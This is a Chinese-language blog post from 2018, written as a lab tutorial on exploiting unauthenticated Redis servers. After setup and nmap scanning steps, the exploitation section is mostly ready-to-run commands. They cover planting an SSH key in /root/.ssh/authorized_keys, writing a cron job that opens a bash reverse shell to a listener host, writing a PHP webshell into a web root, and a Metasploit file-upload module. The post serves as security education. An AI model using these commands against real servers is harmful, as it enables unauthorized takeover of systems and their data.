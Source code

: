 ```yaml
---
layout: post
cover: 'assets/images/cover3.jpg'
title: Redis未授权访问
date:   2018-07-01
tags: web
subclass: 'post'
navigation: True
logo: 'assets/images/ghost.png'
---
```



### 0、环境搭建

#### (1)下载安装

```
cd /tmp
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
tar xzf redis-2.8.17.tar.gz
cd redis-2.8.17
make

cd src
./redis-server
```

#### (2)远程连接

Kali：

```
./redis-cli -h 192.168.111.135
```

Windows：

下载地址：

https://github.com/dmajkic/redis/downloads

```
.\redis-cli -h 192.168.111.135
```

#### (3)常用命令

查看所有键：

```
KEYS *
```

将变量x的值设为test：

```
set x "test"
```

获取默认的redis目录：

```
CONFIG GET dir
```

获取rdb文件名：

```
CONFIG GET dbfilename
```

### 1、漏洞概述

默认情况下，Redis会绑定在 0.0.0.0:6379，并且对公网开放，不需要密码认证

攻击者可以借此未授权访问Redis以及读取Redis的数据，利用Redis自身的提供的config命令可以进行写文件操作

具体有以下利用方式：

- 写入ssh公钥远程连接
- 写入计划任务反弹shell
- 写入webshell


### 2、漏洞扫描

#### 1、手工验证

```
.\redis-cli -h 192.168.111.135
```

输入`INFO server`，有回显，代表存在漏洞

#### 2、批量扫描

```
nmap -v -n -Pn -p 6379 -sV --scriptredis-info 192.168.111.1/24
```

redis-info为nmap专用于检查该漏洞的插件，kali下默认包含

### 3、漏洞利用

#### (1)写入ssh公钥远程连接

利用条件：

- redis服务使用root账号启动
- redis服务无密码认证或者使用的是弱口令进行认证
- 服务器开放了ssh服务，而且允许使用密钥登录

在本地生成公私钥文件：

```
ssh-keygen –t rsa
```

生成公钥文件：`~/.ssh/id_rsa.pub`

生成私钥文件：`~/.ssh/id_rsa`

将公钥写入 foo.txt 文件:

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

连接redis写入文件:

```
cat foo.txt | redis-cli -h 192.168.111.135 -x set crackit
redis-cli -h 192.168.111.135
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
save
```

通过ssh远程连接：

```
ssh –i  id_rsa root@192.168.111.135
```

####  (2)写入计划任务反弹shell

使用telnet远程登录redis

```
telnet 192.168.111.135 6379
```

添加计划任务：

```
config set dir /var/spool/cron/
set -.- "\n\n\n* * * * * bash -i &gt;& /dev/tcp/192.168.236.129/9999 0&gt;&1\n\n\n"
```

本地执行nc监听端口：

```
nc -v -l -p 9999
```

#### (3)写入webshell

利用条件：

- redis服务无密码认证或者使用的是弱口令进行认证
- 支持web并且知道路径


在路径/home/wwwroot/default/写入webshell redis.php：

```
config set dir /home/wwwroot/default/
config set dbfilename redis.php
set webshell "<?php phpinfo(); ?>"
save
```


#### 补充1：如果通过set写入失败

先查看当前有哪些键：

```
KEYS *
```

查看某个键：

```
GET "phptest"
```

删除某个键：

```
DEL "phptest"
```

删除其他影响写入信息的键，并且需要关闭压缩功能：

```
CONFIG SETrdbcompression no
```

#### 补充2：利用msf

```
use auxiliary/scanner/redis/file_upload
set DISABLE_RDBCOMPRESSION yes
setRHOSTS 192.168.111.135
setRemoteFile /tmp/webshell
setLocalFile /home/test.txt
run
```


